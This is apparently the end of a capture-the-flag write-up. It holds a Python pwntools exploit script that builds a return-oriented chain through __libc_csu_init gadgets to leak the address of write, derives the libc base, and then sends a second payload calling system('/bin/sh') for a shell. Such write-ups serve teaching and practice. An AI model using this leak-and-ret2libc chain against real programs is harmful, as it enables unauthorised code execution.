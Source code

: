 ```py
POP_RDI_RET = p64(rop.find_gadget(["pop rdi", "ret"])[0])
  
# We need to call write(int fd, const void* buf, size_t count);
CSU_POP_SLIDE = p64(e.sym.__libc_csu_init+90)
CSU_MOVS = p64(e.sym.__libc_csu_init+64)
  
PAYLOAD = [
	CRASH,
	POP_RDI_RET,
	p64(1),
	CSU_POP_SLIDE,
	p64(0), # rbx
	p64(1), # rbp
	p64(0x00602db8), # r12 (else 0x400a0c, 00602db8)
	p64(1), # r13
	p64(e.got.write), # r14
	p64(8), # r15
	CSU_MOVS,
	b"AAAAAAAA"*7,
	p64(e.plt.write),
	p64(e.sym.main)
]

io.sendlineafter(b"> ", b"".join(PAYLOAD))
print(io.recvline())
print(io.recvline())
print(io.recvline())

WRITE_LEAK = u64(io.recv(8).ljust(8, b'\x00'))
libc.address = WRITE_LEAK - libc.sym.write

log.info(f"Leaked address of write : {hex(WRITE_LEAK)}")
log.info(f"Leaked address of libc : {hex(libc.address)}")

io.interactive()

SHELL_PAYLOAD = [
	CRASH,
	POP_RDI_RET,
	p64(next(libc.search(b"/bin/sh"))),
	p64(libc.sym["system"])
]

io.sendlineafter(b"> ", b"".join(SHELL_PAYLOAD))
io.interactive()
```

Hope you enjoyed the challenge as much as i did enjoy pwning it :)

